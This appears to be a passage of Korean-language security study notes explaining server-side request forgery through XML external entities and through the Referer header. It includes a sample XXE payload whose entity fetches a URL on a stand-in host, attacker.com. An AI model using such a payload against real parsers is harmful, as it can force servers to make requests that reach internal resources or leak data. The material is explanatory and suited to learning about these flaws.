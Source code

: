 <br>

예를 들어,

```xml
<!DOCTYPE data [
  <!ENTITY file SYSTEM "http://attacker.com/evil">
]>
<data>&file;</data>
```
이 경우에, 애플리케이션이 XML을 파싱하면서 주어진 url에 서버가 요청을 보낼 수 있다. 이런 요청을 서버 내부 네트워크의 리소스에 접근하거나 공격자에게 정보를 유출할 수 있게 만든다. 애플리케이션이 XML 포맷 데이터를 입력으로 받고 이를 파싱한다면, XXE injection 공격에 취약하게 된다. XXE를 통해 SSRF 공격을 하는 것 역시 취약하다는 의미이다.

<br>

## SSRF via the Referer header

어떤 애플리케이션에서는 방문자를 추적하기 위해 서버 측에서 분석할 수 있는 소프트웨어를 사용한다. 이 소프트웨어는 요청 내의 Refer header를 로깅하여 링크의 유입을 추적한다. 이러한 소프트웨어는 Refer header에 존재하는 어떠한 서드 파티 URL이든지 방문을 할 때가 있다. 이는 일반적으로 참조 사이트의 콘첸츠를 분석하기 위해 수행되는데, 유입되는 링크에서 사용되는 앵커 텍스트 역시 포함된다. 그 결과, Refer header는 SSRF 취약점에 대한 공격 표현으로 유용하곤 하다.

<br><br>

![image](https://github.com/user-attachments/assets/62dd714c-5ca3-4777-a874-2f53f22b78cb)
